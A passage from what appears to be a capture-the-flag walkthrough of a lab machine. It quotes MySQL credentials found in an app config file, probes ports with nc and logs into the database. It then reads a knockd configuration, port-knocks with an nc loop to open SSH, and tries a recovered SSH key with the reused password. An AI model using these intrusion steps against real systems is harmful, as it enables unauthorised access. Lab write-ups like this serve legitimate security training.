 The IP 10.100.10.4 immediately closes the connection, which means that port 22 is filtered in some way on that client.

In the file _/app/ticketer/database.py_ are credentials for a MySQL instance on 10.100.10.4:
```
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql+pymysql://dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb'
(...)
```

Checking if the default MySQL port is open:
```
nc -zv 10.100.10.4 3306
```

It is open and we are able to login into it, but unfortunately it is the same database as before and has no more interesting information:
```
mysql -u dorthi -p -h 10.100.10.4
```

In the root directory is a file in _/.secret/knockd.log_ with the following contents:
```
[options]
        logfile = /var/log/knockd.log

[opencloseSSH]

        sequence        = 40809:udp,50212:udp,46969:udp
        seq_timeout     = 15
        start_command   = ufw allow from %IP% to any port 22
        cmd_timeout     = 10
        stop_command    = ufw delete allow from %IP% to any port 22
        tcpflags        = syn
```

This is a configuration file for **Knockd** and by using **Port Knocking** on the given ports, it will open port 22 for 10 seconds:
```
nc -zu 10.10.10.96 40809
nc -zu 10.10.10.96 50212
nc -zu 10.10.10.96 46969
```
```
nc -zv 10.10.10.96 22

Ncat: Connected to 10.10.10.96:22.
```

As it closes after 10 seconds, it is more convenient to execute these commands in a loop:
```
for i in 40809 50212 46969; do nc -zu 10.10.10.96 $i; done
```

We have obtained an encrypted SSH key of _dorthi_ earlier and maybe it uses the same password that is also used in the MySQL database:
```
ssh -i dorthi.ssh dorthi@10.10.10.96
```

